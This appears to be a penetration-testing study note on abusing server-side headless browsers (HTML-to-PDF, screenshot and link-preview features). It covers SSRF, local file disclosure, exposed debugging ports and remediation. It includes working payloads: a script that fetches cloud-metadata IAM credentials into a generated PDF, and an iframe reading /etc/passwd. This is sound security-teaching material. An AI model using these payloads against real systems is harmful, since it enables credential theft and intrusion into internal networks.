

# Headless Browser Abuse

## Introduction

Many apps run a **server-side headless browser** (Puppeteer/Playwright/Selenium, `wkhtmltopdf`, Chromium) to render user-supplied content: **HTML-to-PDF generation, URL screenshotting, link previews/unfurling, scraping, "render my template" features**. Because the renderer fetches and executes content **from the server's network position with the server's privileges**, attacker-controlled input becomes **SSRF**, **local file read**, and sometimes **RCE**. A PDF-export field or "enter a URL for a preview" is a classic foothold into internal networks and cloud metadata.

## Core Mechanics

The headless browser will follow whatever you give it:
- Injected HTML/JS (`<iframe src=...>`, `fetch`, ``) → the **server** makes the request → **SSRF** to internal services / `169.254.169.254`.
- `file://` URLs or local resource includes → **local file disclosure** rendered into the PDF/screenshot.
- JS executes in the render context → exfiltrate fetched internal responses back into the rendered output the attacker receives.
- Old/misconfigured engines (`wkhtmltopdf`, outdated Chromium) → known CVEs, occasionally RCE; debugging port (`--remote-debugging-port`) exposed → full browser control.

## Mermaid: Render-Side SSRF Flow



## Vulnerability 1: SSRF to cloud metadata via PDF
```html
<!-- submitted to an HTML→PDF endpoint; JS runs in the server-side renderer -->
<script>
 fetch('http://169.254.169.254/latest/meta-data/iam/security-credentials/')
   .then(r=>r.text()).then(t=>{document.title=t; document.body.innerText=t;});
</script>
<!-- the creds land in the generated PDF the attacker downloads -->
```

## Vulnerability 2: Local file read
```html
<iframe src="file:///etc/passwd" width=1000 height=1000></iframe>

```
Rendered into the screenshot/PDF returned to the attacker.

## Vulnerability 3: Exposed debugging port / engine CVE
A reachable `--remote-debugging-port` (9222) lets an attacker drive the browser (navigate, read any tab). Outdated `wkhtmltopdf`/Chromium → public exploits.

## Methodology
1. Find features that render user input server-side (PDF export, "preview URL", screenshot, report generation, unfurl).
2. Test SSRF (point to a collaborator/internal IP, then `169.254.169.254`, `localhost`, internal hostnames) and `file://` reads; observe the returned PDF/image.
3. Test JS execution + exfil (does injected `<script>` run? can you read+embed an internal response?).
4. Check the engine/version for CVEs and any exposed debugging port; check egress filtering.

## Remediation
1. Render in an **isolated, network-restricted** sandbox (no access to metadata/internal subnets; egress allowlist); block `file://`, `gopher://`, and internal IP ranges.
2. Sanitize input (strip scripts/iframes for "HTML→PDF" where only formatting is needed); disable JS in the renderer if not required; never expose the remote-debugging port.
3. Drop privileges, keep the engine patched, set timeouts/resource limits, and enforce **IMDSv2** so SSRF can't trivially grab creds.

## Chaining Opportunities
- Core **SSRF** primitive → cloud metadata creds (Cloud category: [[04 - EC2 Exploitation]]); see SSRF (folder I-13) for full SSRF tradecraft.
- LFI-style disclosure overlaps Path Traversal (folder I-23).

## Related Notes
- [[31 - Web LLM and Prompt Injection]] (this folder, similar server-fetches-attacker-content pattern); SSRF: I-13; XXE another server-fetch vector: folder I-14.

## Tools
BurpSuite + Collaborator, `wkhtmltopdf` version checks, SSRF payload lists, `interactsh`.
